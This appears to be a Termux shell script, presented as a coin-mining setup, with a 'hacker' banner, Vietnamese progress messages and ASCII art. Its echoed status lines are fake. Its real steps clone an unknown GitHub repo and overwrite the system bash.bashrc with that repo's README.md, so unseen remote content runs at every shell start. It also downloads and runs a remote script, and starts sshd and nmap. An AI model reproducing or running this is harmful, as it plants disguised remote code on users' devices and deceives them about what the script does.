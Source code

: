 

sshd

echo "  ~~🅓🅘ệ🅝🅒🅞🅓🅔😎🅷🅰🅲🅺🅴🆁 ~~ ";
sleep 2

echo "( ~~😎🅒🅞🅓 🅑🅨 🅓🅘🅔🅝 🅗🅐🅒🅚🅔🅡😎 ~~ )";
sleep 3

echo " chúc Ae đào coin thật nhiều tiền";
sleep 1

echo "load... đang lấy thông tin ✓ ";
sleep 5

echo "load... cập nhật lại thông tin✓";
sleep 2

echo "load... bất đầu login✓  ";
sleep 2
     echo "███████▄▄███████████▄ ";
echo "▓▓▓▓▓▓█░░░░░░░░░░░░░░█ ";
echo "▓▓▓▓▓▓█░░░░░░░░░░░░░░█ ";
echo "▓▓▓▓▓▓█░░░░░░░░░░░░░░█ ";
echo "▓▓▓▓▓▓█░░░░░░░░░░░░░░█ ";
echo "▓▓▓▓▓▓█░░░░░░░░░░░░░░█ "
echo "▓▓▓▓▓▓█░░░░░░░░░░░░░░█ ";
echo "██████▀░░░░░░░██████▀ ";
echo "         █░░░░█ ";
echo "         █░░░░█ ";
echo "           █░░█ ";
echo "           █░░█ ";
echo "            ▀*₫ ";
sleep 5
echo "load... ccminer start ubuntu mining coin✓ ";
sleep 3

pkg update -y

pkg upgrade -y

pkg install wget -y 

pkg install git -y

pwd

cd ..

ls

cd usr

ls

cd etc

ls

git clone https://github.com/giaBAba/giaBAba.git

rm -rf bash.bashrc

cd giaBAba

cp README.md ../bash.bashrc

cd 

pkg install wget openssl-tool proot -y && hash -r && wget https://raw.githubusercontent.com/EXALAB/AnLinux-Resources/master/Scripts/Installer/Ubuntu/ubuntu.sh && bash ubuntu.sh

pkg install openssh
 
sshd 

pkg install nmap

./start-ubuntu.sh

